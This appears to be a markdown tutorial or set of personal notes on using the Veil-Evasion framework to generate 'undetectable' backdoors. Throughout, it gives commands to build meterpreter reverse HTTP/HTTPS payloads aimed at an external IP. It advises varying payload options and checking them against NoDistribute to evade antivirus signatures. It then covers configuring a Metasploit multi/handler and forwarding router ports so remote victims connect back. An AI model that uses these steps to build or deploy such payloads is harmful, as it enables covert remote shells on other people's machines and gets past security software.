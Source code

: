 # VEIL

Veil is a framework for generating __undetectable__ backdoors.

```
apt-get install veil
```

## Creating demo payload

```
veil
> list > Evasion
# VEIL-EVASION
list (see payloads)
> go/meterpreter/rev_https.py (example)
```

You can validate payload detection through _NoDistribute_ utility.

### Reverse connection example

```
# VEIL-EVASION
> list > go/meterpreter/rev_https.py
set LHOST <Metasploit handler>
set LPORT <Metasploit port>
generate
```

It is a good idea to set up different payload options to make it look a little bit different to common AV's signatures.

After generating the file, we need to set our _Metasploit handler_.

```
msfconsole
use exploit/multi/handler
# configuration should correspond to the payload used in the backdoor
set PAYLOAD windows/meterpreter/reverse_https
set LHOST <host ip>
set LPORT <desired port>
```

## Listening for connections with Metasploit

```
msfconsole
use exploit/multi/handler
show options
set PAYLOAD windows/meterpreter/reverse_https
```

## External network exploit

```
# VEIL-EVASION
use cs/meterpreter/rev_http
SET LPORT 8080
SET LHOST <REAL_IP> # we do not want to use LAN IP, look for real network ip
generate
```

Remember to run `msfconsole` and proper configure _Metasploit handler_'s `PAYLOAD`.

### Configure Router to forward connections to Kali

Access router configuration panel and look for __IP Forwarding__ configuration.

We'll forward connections that come through our selected port (in our example, port `8080`) to the LAN IP of our kali machine (get it with `ifconfig`).

If you plan to host your payload using a web server such as apache from your own machine, you'd probably want to forward requests comming through port `80` too.

An alternative, if your router supports it, is to set your host as __DMZ Host__, so that router forwards all requests to your machine.
 